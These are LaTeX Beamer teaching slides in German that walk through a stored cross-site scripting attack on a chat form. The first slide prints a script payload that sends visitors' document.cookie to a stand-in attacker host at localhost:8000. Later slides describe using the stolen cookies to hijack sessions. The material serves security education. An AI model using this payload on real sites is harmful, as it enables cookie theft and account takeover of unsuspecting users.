 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Wir verwenden die XSS-Sicherheitsl\"ucke in Form, um unser eigenes Script in die Seite zu integrieren.
    \item F\"ullen wir das Feld 'new message' wie folgt:

    \begin{lstlisting}[style=PHPStyle]
      Please no Offtop in this thread.
      <script>
        img = new Image();
        img.src = "http://localhost:8000/cat.jpg?"+document.cookie;
      </script>
    \end{lstlisting}
    \item Annahme: die Zieladdresse (http://localhost:8000) geh\"ort zum Angreifer.
  \end{itemize}
\end{frame}


\begin{frame}[fragile]{XSS - Beispiel}
  \begin{figure}[ht]
      \centering
      \includegraphics[width=\textwidth]{XSS-2.png}
      \caption{Nach der Integration des Skripts}
      \label{fig:figure2}
  \end{figure}
\end{frame}

\begin{frame}[fragile]{XSS - Beispiel}
  \begin{itemize}
    \item Da die Website die Eingabe nicht \"uberpr\"uft, gelangt unser Skript in den Chat.
    \item Ab jetzt sendet jeder Besucher der Seites seine Cookies zum Angreifer.
    \item Der Angreifer dauert, bis der richtige Benutzer die Seite aufruft.
    \item Der Angreifer kann dann in seinem Browser Cookie-Werte ersetzen, so dass die Website ihn als Benutzer nimmt.
  \end{itemize}
\end{frame}
\end{document}
